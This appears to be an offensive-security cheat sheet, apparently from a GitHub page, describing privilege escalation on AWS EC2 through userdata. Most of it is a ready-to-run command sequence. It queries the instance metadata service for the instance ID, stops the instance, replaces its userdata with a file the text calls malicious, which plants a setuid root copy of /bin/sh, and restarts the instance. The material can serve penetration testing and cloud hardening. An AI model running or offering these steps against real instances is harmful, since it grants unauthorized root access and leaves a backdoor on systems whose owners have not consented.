 # AWS EC2 Userdata Privilege Escalation

### We can leverage user data to execute commands in the context of root on Linux at launch. In the example below we've added commands to create a copy of the root-owned binary /bin/sh and add the setuid bit, allowing us to run the binary as root (example). The EC2 instance has to be in a stopped state for us to update the user data.

## Steps

 - base64 userdata.txt > userdata.b64.txt (Encode our userdata with base64)

 - curl http://169.254.169.254/latest/meta-data/instance-id (We'll need to specify the ID of the EC2 instance to modify, and can get this from the metadata service.)

 - aws ec2 stop-instances --instance-id INSTANCE_ID (Stop EC2 Instance)

 - aws ec2 modify-instance-attribute --instance-id=INSTANCE_ID --attribute userData --value file://userdata.b64.txt (Update the userdata with our malicious file)

 - aws ec2 start-instances --instance-id INSTANCE_ID (Start EC2 Instance to load our malicious userdata file)

 - aws ec2 describe-instances --instance-ids INSTANCE_ID --query 'Reservations[*].Instances[*].PrivateIpAddress' --output text (Check the private IP address of the target instance. This is optional)








